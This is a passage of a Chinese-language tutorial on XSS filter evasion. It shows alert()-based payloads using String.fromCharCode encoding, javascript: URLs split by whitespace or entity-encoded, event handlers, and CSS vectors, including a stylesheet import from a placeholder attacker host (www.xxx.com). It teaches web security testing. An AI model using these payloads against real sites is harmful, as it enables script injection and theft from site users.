 ```
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34,41)

那么我们的XSS语句就变成了

<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88,83, 83, 34, 41, 59)</script>

String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。

最后使用<script>转换后的放到这里</script>包含即可。
```
**利用"<>"标记注射Html/Javascript**
```
如果用户能随心所欲引入<>标记，那他就能操作HTML标记，然后就能通过<script>标签插入JS恶意脚本了，例如：

<script>alert(‘XSS‘);</script>

当然如果对"<>"和script等进行了过滤，上面这个就无法执行了
利用HTML标签属性值执行XSS

很多HTML标记中的属性都支持javascript:[code]伪协议的形式，这就给了注入XSS可乘之机,例如：

<img src = "javascript:alert(‘xss‘);">

这里即便对传入的参数过滤了<>,XSS还是能发生(前提是该标签属性需要引用文件)
```
**空格/回车/Tab**
```
假设过滤函数进一步又过滤了javascript等敏感字符串，只需对javascript进行小小的操作即可绕过，例如：

　<img src= "java　　script:alert(‘xss‘);" width=100>

这里之所以能成功绕过，其实还得益于JS自身的性质：Javascript通常以分号结尾，如果解析引擎能确定一个语句时完整的，且行尾有换行符，则分号可省略.

而如果不是完整的语句，javascript则会继续处理，直到语句完整结束或分号。

像<img src= "javascript:　alert(/xss/); width=100> 同样能绕过.
**对标签属性值进行转码**

过滤严谨的函数很可能对标签也进行了严格的控制，但是如果用其他形式表示标签,脚本仍能解析却可以绕过过滤.

常见的编码方式有：HTML实体编码(&#ASCII),十进制、十六进制、八进制编码，unicode编码及escape编码及使用String.fromCharCode(...)绕过.

因此<img src= "javascript&#116&#alert(/xss/);">可以实现绕过.

另外还可以把&#01、&#02、&#09等字符插入代码的头部或任意地方
```
**产生自己的事件**
```
如果不能依靠属性进行跨站，那么还可以利用事件处理函数
<input type = "button"  value = "clickme" onclick="alert(‘click me‘)" />

事件既能让JS脚本运行，自然也可以执行跨站，另外像onerror、onMouseover等都可利用的是事件处理函数.
```
**利用CSS跨站剖析**
```
之所以说CSS样式表是个很不错的载体，是因为CSS不需要嵌入到HTML代码中，可以直接从文件或其他地方进行引用. 另外CSS同样隐蔽、灵活，不过不同

浏览器之间不能通用，如：

<div style = "list-style-image:url(javascript:alert(‘xSS‘))">

<link rel = "stylesheet" href ="http://www.xxx.com/atack.css">

<style type=‘text/css‘>@import url(http://www.xxx.com/xss.css);</style>
```